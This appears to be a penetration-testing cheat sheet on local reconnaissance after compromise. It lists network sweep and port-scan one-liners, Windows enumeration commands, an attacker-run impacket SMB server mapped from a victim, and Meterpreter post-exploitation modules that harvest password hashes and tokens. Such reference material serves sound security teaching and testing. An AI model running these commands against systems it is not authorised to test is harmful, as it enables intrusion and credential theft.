 ```yaml
---
description: A list of useful Local Reconnaissance Technique
---
```


# Local Reconnaissance

## Linux

### Network

Enumerate all responding @IP of the network. Bash native.

```bash
# enumerate @IP
for i in {1..255}; do (ping -c 1 172.16.2.${i} | grep "bytes from" &); done

# enumerate open port for 1 @IP
for i in {1..65535}; do (echo > /dev/tcp/192.168.1.1/$i) >/dev/null 2>&1 && echo $i is open; done
```

## Windows

### Network

Get all responding Ip addresses using Windows native command:

```ps1
(for /L %a IN (1,1,254) DO ping /n 1 /w 1 172.16.2.%a) | find "Reply"
.\nc.exe -z -v 172.16.1.5 1-8000 # port using netcat
```

DNS / ARP / Routing Table / WiFi

```ps1
ipconfig /displaydns #DNS cache (Windows)
arp -a # ARP cache
netstat -na # Established TCP connections
netstat -nr # Routing table
netsh wlan show networks mode=b # Displays nearby wifi
nmcli dev show
```

**Path to the Windows hosts file**: `C:\Windows\System32\drivers\etc\hosts`

### System

#### Enumerate users

```powershell
net users
net user <USERNAME>
```

#### Get directory/file perms

```powershell
# using powershell
(Get-acl '<PATH>').access | ft IdentityReference,FileSystemRights,AccessControlType,IsInherited,InheritanceFlags -auto
```

#### Get services permissions

Download and upload the SysInternals [AccessCHK ](https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk)tool.

```powershell
.\accesschk64.exe /accepteula -ucqv <SERVICE_NAME>
```

> **Gist:** [https://gist.github.com/cube0x0/1cdef7a90473443f72f28df085241175](https://gist.github.com/cube0x0/1cdef7a90473443f72f28df085241175)

#### Connect into SMB server

```bash
# attacker
impacket-smbserver s . -smb2support -username toto -password coucou

# victim
net use X: "\\servername\share" /user:morgan password
```

#### Using Meterpreter

* **arp\_scanner** : The arp\_scanner post module will perform an ARP scan for a given range through a compromised host.

`run post/windows/gather/arp_scanner`

* **credential\_collector** : The credential\_collector module harvests passwords hashes and tokens on the compromised host.

`run post/windows/gather/credentials/credential_collector`

* **dumplinks** : The dumplinks module parses the .lnk files in a users Recent Documents which could be useful for further information gathering. Note that, as shown below, we first need to migrate into a user process prior to running the module.

`run post/windows/manage/migrate (optionnal migrate to a user PID)` `run post/windows/gather/dumplinks`

* **enum\_applications** : The enum\_applications module enumerates the applications that are installed on the compromised host.

`run post/windows/gather/enum_applications`

* **enum\_logged\_on\_users** : The enum\_logged\_on\_users post module returns a listing of current and recently logged on users along with their SIDs.
* **enum\_shares** : The enum\_shares post module returns a listing of both configured and recently used shares on the compromised system.

`run post/windows/gather/enum_shares`

* **enum\_snmp** : The enum\_snmp module will enumerate the SNMP service configuration on the target, if present, including the community strings.

`run post/windows/gather/enum_snmp`

* **hashdump** : The hashdump post module will dump the local users accounts on the compromised host using the registry.

`run post/windows/gather/hashdump`

* **local\_exploit\_suggester** : The local\_exploit\_suggester, or 'Lester' for short, scans a system for local vulnerabilities contained in Metasploit. It then makes suggestions based on the results as well as displays exploit's location for quicker access.

`use post/multi/recon/local_exploit_suggester`
